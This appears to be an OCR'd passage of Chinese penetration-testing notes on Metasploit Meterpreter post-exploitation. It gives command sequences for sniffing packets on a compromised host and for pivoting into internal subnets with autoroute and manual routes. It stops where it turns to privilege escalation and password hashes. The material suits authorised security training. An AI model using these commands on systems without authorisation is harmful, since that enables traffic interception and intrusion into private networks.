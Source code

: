 ### 数据包嗅探 ❖/🐧

首先先获取到meterpreter shell，然后启动sniffer模块：
```
use sniffer
help

sniffer_interfaces
sniffer_start <interface_id>
sniffer_stats <if_id>
sniffer_dump <if_id> path/to/pcap/file
sniffer_stop <if_id>
sniffer_release <if_id>
```

\*Meterpreter通过全加密SSL/TLS隧道传输数据

另外一个模块 `packetrecorder` 也可以：
```
metapreter> run packetrecorder -i <interface>

```

### Pivoting 跳板渗透 ❖/🐧

成功攻击*不可路由网络*的对外主机后，将其作为跳板访问内网机器。
``
在通过exploit获取到shell之后，运行`ipconfig`检查主机网卡接口信息，观察是否为双宿主主机（可以连接内网和外网，内外网不直接通信，若开启路由功能则安全性极低，[More Info](https://www.wangan.com/wenda/8699)），一般有两种cidr：10.0.0.0/8、192.168.0.0/16

若此主机是双宿主的话，我们就可以尽其所用，

可以使用get_local_subnets脚本获取受控系统本地子网信息：
```shell
meterpreter > run get_local_subnets
meterpreter > bg
```
可以使用`autoroute`脚本将其作为我们攻击内网机器的路由器：
```shell
meterpreter > run autoroute -h
meterpreter > run autoroute -s 10.1.13.0/24 # 外网接口地址CIDR
meterpreter > run autoroute -p
```
也可以手动route：
```shell
msf> route add <subnet_prefix> <subnet_mask> <gateway_session>
# route add 192.168.2.0 255.255.255.0 1
msf> route print
```
还有更简单的脚本：
```
msf> load auto_add_route
```

添加了route之后，尝试提权并获取密码哈希：
